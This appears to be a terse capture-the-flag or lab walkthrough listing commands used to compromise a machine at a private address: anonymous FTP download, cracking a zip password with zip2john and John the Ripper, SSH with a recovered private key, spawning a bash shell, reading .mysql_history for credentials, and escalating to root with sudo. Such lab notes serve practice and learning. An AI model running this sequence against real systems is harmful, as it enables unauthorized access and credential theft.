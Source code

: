 \> ftp 192\.168\.0\.253
\> user: anonymous
\> pwd: \<blank\>

mget \*\.\*  \(download all files\)

zip2john tom\.zip \> hash

john hash \-\-wordlist=/usr/share/wordlists/rockyou\.txt

unzip tom\.zip pwd:\(cracked pwd\)

ssh id\_rsa tom@192\.168\.0\.253

python3 \-c 'import os; os\.system\("/bin/bash"\);'

cat \.mysql\_history

sudo \-l

sudo su ##root##